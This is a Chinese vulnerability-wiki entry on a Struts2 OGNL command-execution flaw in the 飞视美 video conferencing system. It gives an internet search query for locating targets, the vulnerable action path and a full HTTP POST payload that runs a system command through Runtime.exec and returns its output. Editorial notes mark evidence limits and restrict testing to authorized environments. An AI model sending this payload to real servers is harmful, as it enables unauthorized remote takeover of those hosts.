


# 飞视美视频会议系统/Struts2 OGNL参数绑定命令执行

## 条目说明

- 对象与具体问题：飞视美视频会议系统/Struts2；OGNL参数绑定命令执行
- 版本、配置及部署条件：未知产品及Struts2版本，Windows示例ipconfig
- 认证与权限前提：未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 只称Struts2不指定S编号/CVE及组件版本，不能泛化所有Struts2部署
- readFully固定51020字节可能因短输出EOF失败，命令执行与回显成功需分开
- Content-Length静态；截图未视检，缺根因源码和修复版本
- 应产品漏洞关联底层组件实体，不凭载荷擅配CVE

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

### 漏洞影响

```
飞视美 视频会议系统
```

### 网络测绘

```
app="飞视美-视频会议系统"
```

### 漏洞复现

登录页面



存在漏洞的路径为

```
/confinfoaction!showallConfinfos.action
```

发送请求包

```http
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

> 请求长度说明：原资料 Content-Length 为 669；静态长度已移除，应由客户端根据最终请求体的字节数生成。



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
